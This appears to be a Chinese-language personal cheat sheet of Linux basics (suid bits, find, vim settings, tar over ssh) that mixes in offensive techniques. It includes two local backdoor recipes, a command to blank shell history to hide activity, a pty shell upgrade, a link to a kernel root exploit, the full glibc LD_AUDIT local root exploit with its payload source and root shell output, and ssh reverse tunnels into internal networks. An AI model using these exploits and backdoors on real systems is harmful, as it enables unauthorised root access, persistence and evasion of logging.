 ```yaml
---
layout: post
title: "Linux基础汇总"
---
```


## Linux基础汇总


* suid/guid

	suid意味着如果A用户对属于他自己的shell脚本文件设置了这种权限，那么其他用户在执行这个脚本的时候就拥有了A用户的权限。所以，如果 root用户对某一脚本设置了这一权限的话则其他用户执行该脚本的时候则拥有了root用户权限。同理，guid意味着执行相应脚本的用户则拥有了该文件所属用户组中用户的权限。

	给文件加suid和sgid的命令如下：

	    chmod u+s filename 设置suid位
	    chmod u-s filename 去掉suid设置
	    chmod g+s filename 设置sgid位
	    chmod g-s filename 去掉sgid设置

* find / -type f -perm /u+s -ls

	-perm #按执行权限来查找  
	-type b/d/c/p/l/f #查是块设备、目录、字符设备、管道、符号链接、普通文件
	
* find ./ -name ‘*.java’ -exec grep -i “ABCD” {} \; -print 在当前路径不区分大小写查找所有*.java的文件里面含有”ABCD”的内容行，并且print出来文件的路径

* find /web/htdocs -type f -name "*.php" |xargs grep "eval(" > /tmp/test.txt

* Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit

	[http://www.lengmo.net/post/1380]

* 本地后门2法 xi4oyu

	1.
	
	    cd /lib
	    chmod +s ld-linux.so.2
	    /lib/ld-linux.so.2 `which whoami`

	2.
	
	    chmod a+w /etc/fstab
	    echo 'test /mnt ext2 user,suid,exec,loop 0 0' >> /etc/fstab
	    chown root.root setuid
	    chmod u+s setuid
	    mount test
	    cd /mnt

* ssh的history处理 & 日至相关

	    export HISTFILE=/dev/null

	ssh日志默认保存在 /var/log/secure文件里
	
* python -c 'import pty; pty.spawn("/bin/sh")'

* 基础操作

增加一个用户  
useradd application  
passwd // 根据提示设置密码  
	
* exp

	    $ mkdir /tmp/exploit
	    $ ln /bin/ping /tmp/exploit/target
	    $ exec 3< /tmp/exploit/target
	    $ ls -l /proc/$$/fd/3
	    $ rm -rf /tmp/exploit/
	    $ cat > payload.c
	    void __attribute__((constructor)) init()
	    {
	        setuid(0);
	        system("/bin/bash");
	    }
	    ^D
	    $ gcc -w -fPIC -shared -o /tmp/exploit payload.c
	    $ ls -l /tmp/exploit
	    $ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
	    sh-4.1# whoami
	    root
	    sh-4.1# id
	    uid=0(root) gid=500(taviso)

* 自己建立ipkg feed服务器

	[http://www.oesf.org/index.php?title=Setting_Up_A_Feed ipkg-make-index.sh]
	
	[http://buffalo.nas-central.org/wiki/Construct_ipkg_packages_(for_developers)]
	
	gzip -9c Packages > Packages.gz


* 连接godaddy的ftp需要用passive模式。ftp之后，运行passive

* C库（glibc）  

	glibc是个C库，几乎所有的应用程序都需要共享它提供的功能（除了kernel、bootload、和其它完全不用C库的功能代码），因此glibc的存在有利益小系统或嵌入系统缩减系统总代码尺寸与存放空间（尽管单个的glibc库是比较大的）。所以，最后的工作就是：构造ARM交叉编译系统的glibc库。

* 安装语言包  
 sudo apt-get install language-support-zh  

* .vimrc编写指南  
	set nocp #该命令指定让 VIM 工作在不兼容模式下  
	set ru #该命令打开 VIM 的状态栏标尺。  
	set hls #搜索时高亮显示被找到的文本。  
	syntax on #打开关键字上色。  
	set backspace=indent,eol,start #字母删除问题  
	set whichwrap=b,s,<,>,[,] #光标跳转  

* linux下使用tar和ssh压缩传输文件

	    ssh username@remoteip "cd /some/path/; tar czf - path" | tar xvzf -#压缩传输
	    tar cvzf - /path/ | ssh username@remoteip "cd /some/path/; tar xvzf -" #压缩传输一个目录并解压

* ssh sock

	    ssh username@my_host_ip_address -D 7070
	    ssh -N -L 5555:202.202.202.1:22 admin@101.101.101.1
	    ssh -N -D 7070 user@localhost -p 555
	>内网运行：ssh -f -N -R 10000:localhost:22 username@反连的外网ip也就是说，在主控端10000端口和被控端的22端口上建立了一个通道。-R [listen-IP:]listen-port:host:portForward remote port to local address外网ip运行：ssh username@localhost -p 10000

* 未完待续






